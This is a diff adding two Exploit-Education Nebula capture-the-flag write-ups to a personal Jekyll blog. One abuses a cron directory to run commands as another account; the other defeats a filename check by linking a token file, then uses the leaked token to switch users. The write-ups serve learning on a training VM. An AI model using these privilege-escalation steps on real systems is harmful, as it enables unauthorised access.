

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _pages/category-archive.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
nebula levels added

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -31,7 +31,7 @@ masthead_title           : # overrides the website title displayed in the masthe
 # breadcrumbs            : false # true, false (default)
 words_per_minute         : 200
 comments:
-  provider               : # false (default), "disqus", "discourse", "facebook", "staticman", "staticman_v2", "utterances", "custom"
+  provider               : #"disqus" # false (default), "disqus", "discourse", "facebook", "staticman", "staticman_v2", "utterances", "custom"
   disqus:
     shortname            : # https://help.disqus.com/customer/portal/articles/466208-what-s-a-shortname-
   discourse:
@@ -293,7 +293,7 @@ defaults:
       layout: single
       author_profile: false
       read_time: true
-      comments: # true
+      comments: true
       share: true
       related: true
 # _pages
--- a/_posts/nebula/2019-08-13-level03.md
+++ b/_posts/nebula/2019-08-13-level03.md
@@ -0,0 +1,27 @@
+---
+layout: single_c
+title:  "Exploit-Education Nebula Level 03"
+date:   2019-08-13 10:43:16 +0530
+categories: Exploit-Education
+tags: Nebula
+classes: wide
+---
+### Exploit Education Level 3
+
+## Challenge
+
+Check the home directory of `flag03` and take note of the files there.
+There is a `crontab` that is called every couple of minutes.
+Crontab is a service that run periodically. In this example the crontab executes the contents of any file inside
+crontab.d directory
+
+## Vulnerability
+We can run any commands by writing the commands to a file in the crontab directory and writing the output to a file
+```
+level03@nebula:echo 'getflag >>/tmp/flag.txt' > run.sh
+level03@nebula:/tmp$ ls
+flag.txt  VMwareDnD  vmware-root
+level03@nebula:/tmp$ cat flag.txt
+You have successfully executed getflag on a target account
+```
+### Solved
--- /dev/null
+++ b/_posts/nebula/2019-08-13-level04.md
@@ -0,0 +1,37 @@
+---
+layout: single_c
+title:  "Exploit-Education Nebula Level 04"
+date:   2019-08-13 10:43:16 +0530
+categories: Exploit-Education
+tags: Nebula
+classes: wide
+---
+### Exploit Education Level 4
+## Challenge
+This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it
+To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in /home/flag04.
+## Vulnerabilty
+The program looks for the string `token` in the file name.
+```
+if(strstr(argv[1], "token") != NULL) {
+      printf("You may not access '%s'\n", argv[1]);
+      exit(EXIT_FAILURE);
+```
+We can beat this check by creating a [symlink](https://www.cyberciti.biz/faq/creating-soft-link-or-symbolic-link/) to the file token using a file name that does not have `token` in it
+```
+level04@nebula:~$ ln /home/flag04/token /home/level04/flag
+level04@nebula:~$ ls
+flag  flag04  token
+```
+Symlink created. lets run the program now.
+```
+level04@nebula:~$ cd /home/flag04
+level04@nebula:/home/flag04$ ./flag04 /home/level04/flag
+06508b5e-8909-4f38-b630-fdb148a848a2
+level04@nebula:/home/flag04$ su - flag04
+Password:
+flag04@nebula:~$ getflag
+You have successfully executed getflag on a target account
+flag04@nebula:~$
+```
+### Solved!
````
